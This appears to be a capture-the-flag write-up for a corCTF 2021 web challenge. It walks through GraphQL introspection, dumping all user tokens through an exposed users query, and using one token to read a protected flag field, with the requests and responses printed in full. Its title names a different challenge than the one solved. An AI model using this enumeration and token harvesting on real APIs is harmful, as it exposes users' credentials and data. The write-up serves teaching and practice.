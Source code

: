 # CShell - corCTF 2021

- Category: Web
- Points: 323
- Solves: 264
- Solved by: Iregon

## Description

an ex-google, ex-facebook tech lead recommended me this book!

[https://devme.be.ax](https://devme.be.ax)

## Solution

The linked site in the challenge description is mostly empty. The only part that looks interesting is the form at the end of the page:

![form](images/form.png)

Submitting the form we can see a request made to an intesting endpoint:

![req](images/req.png)

and in the body we have a complete graphql query:

```json
{
    "query": "mutation createUser($email: String!) {\n\tcreateUser(email: $email) {\n\t\tusername\n\t}\n}\n",
    "variables": {
        "email": "test@test.com"
    }
}
```

We have the complete access to the database, so we can try to enumerate it:

### Request
```json
{
    "query":"{__schema {queryType {fields {name description}}}}"
}
```

### Response
```json
{
  "data": {
    "__schema": {
      "queryType": {
        "fields": [
          {
            "name": "users",
            "description": null
          },
          {
            "name": "flag",
            "description": null
          }
        ]
      }
    }
  }
}
```

The field **flag** looks very intresting.

Let's try to query it!

### Request
```json
{
    "query":"{flag}"
}
```

### Response
```json
{
  "errors": [
    {
      "message": "Field \"flag\" argument \"token\" of type \"String!\" is required, but it was not provided.",
      "locations": [
        {
          "line": 1,
          "column": 2
        }
      ]
    }
  ]
}
```

Hmm... token is required and we don't know it.

Now, let's take a look at **users** field.

Let's check if token is in it.

### Request
```json
{
    "query":"{users{token}}"
}
```

### Response
```json
{
  "data": {
    "users": [
      {
        "token": "3cd3a50e63b3cb0a69cfb7d9d4f0ebc1dc1b94143475535930fa3db6e687280b"
      },
      {
        "token": "5568f87dc1ca15c578e6b825ffca7f685ac433c1826b075b499f68ea309e79a6"
      },
      {
        "token": "d34609c0c342f7dc6f3d8b18356dfeda82a233a9846c7d2dbab8fb803719caf9"
      },
      ...
    ]
  }
}
```

There are a lot of tokens.

Let's try the first one!

### Request
```json
{
    "query":"{flag(token: \"3cd3a50e63b3cb0a69cfb7d9d4f0ebc1dc1b94143475535930fa3db6e687280b\")}"
}
```

### Response
```json
{
  "data": {
    "flag": "corctf{ex_g00g13_3x_fac3b00k_t3ch_l3ad_as_a_s3rvice}"
  }
}
```

There is the flag!!!

## Flag

```
corctf{ex_g00g13_3x_fac3b00k_t3ch_l3ad_as_a_s3rvice}
```